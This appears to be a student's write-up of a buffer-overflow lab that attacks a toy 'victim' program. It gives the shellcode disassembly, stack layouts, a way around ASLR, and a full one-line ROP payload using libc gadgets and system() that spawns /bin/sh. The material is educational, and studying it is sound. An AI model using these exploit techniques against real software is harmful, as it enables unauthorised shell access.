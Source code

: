 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux.

> Throughout each step, there will be an indentation indicating a script or
> command that executes everything mentioned in that step.

### Some assembly required
I began by compiling and running the provided shell.c code.

> Use the provided Makefile:
```
make
```

Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

> The necessary shellcode file can be produced by running:
```
./theshellgame.sh
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |<- &name
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |<- &name
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&name			|

```

_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

That way, when the program finishes, it goes to execute the address of shellcode, instead of the return address.

### The importance of being patched:
Now we try to exploit the code with ASLR re-enabled. This means that we cannot rely on the address of ```name``` being constant. Instead, we must calculate where it is every time in order to do the same thing as we did before.

The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

### Go-go-gadgets:
For the last part, we try to defeat the no-execute protection on our system. That means we can no longer just stick the code we want onto the stack to run it; stack memory becomes unexecutable. We need to get more clever than that.

What we can use is the system's own code! If we manipulate the return address of our program to run to already-loaded code, such as that from libc. Using our stack diagram:
```
 _______________
|0 (32 bytes)	|<- &name
|			|
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&addr of gadget|
|"/bin/sh"		|
|&addr of gadget|
|...			|
```
When the program returns, it does not jump to the right place. Instead, it jumps to a gadget, which is a chunk of code that performs things we want. All we want is to pop the bin/sh string onto a register, and then make a syscall such that it executes. We use libc's code for that, found the first assembly that fit, and jumped to it.

Specifically, I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0										//Location of the char buffer 
libc: 		0x7ffff7a15000										//Location of libc on our system
system:		0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590			//Location of the system
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a			//Location of the desired gadget
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 	//Location of our /bin/sh string
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!
